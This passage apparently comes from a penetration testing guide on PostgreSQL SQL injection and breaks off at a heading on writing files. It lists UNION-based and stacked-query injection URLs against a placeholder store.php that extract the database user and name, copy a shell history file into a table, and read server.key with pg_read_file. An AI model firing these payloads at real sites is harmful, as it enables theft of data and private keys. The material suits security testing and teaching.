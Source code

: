 ##### Example

```text
https://www.example.com/store.php?id=1 UNION ALL SELECT user,NULL,NULL--
https://www.example.com/store.php?id=1 UNION ALL SELECT current_user, NULL, NULL--
```

#### Current Database

The built-in function current\_database() returns the current database name.

##### Example

`https://www.example.com/store.php?id=1 UNION ALL SELECT current_database(),NULL,NULL--`

#### Reading from a File

PostgreSQL provides two ways to access a local file:

- `COPY` statement
- `pg_read_file()` internal function (starting from PostgreSQL 8.1)

##### COPY

This operator copies data between a file and a table. The PostgreSQL engine accesses the local file system as the `postgres` user.

###### Example

```text
/store.php?id=1; CREATE TABLE file_store(id serial, data text)--
/store.php?id=1; COPY file_store(data) FROM '/var/lib/postgresql/.psql_history'--
```

Data should be retrieved by performing a `UNION Query SQL Injection`:

- retrieves the number of rows previously added in `file_store` with `COPY` statement
- retrieves a row at a time with UNION SQL Injection

```text
/store.php?id=1 UNION ALL SELECT NULL, NULL, max(id)::text FROM file_store LIMIT 1 OFFSET 1;--
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 1;--
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 2;--
...
...
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 11;--
```

##### pg_read_file()

This function was introduced in `PostgreSQL 8.1` and allows one to read arbitrary files located inside DBMS data directory.

###### Example

`SELECT pg_read_file('server.key',0,1000);`

#### Writing to a File
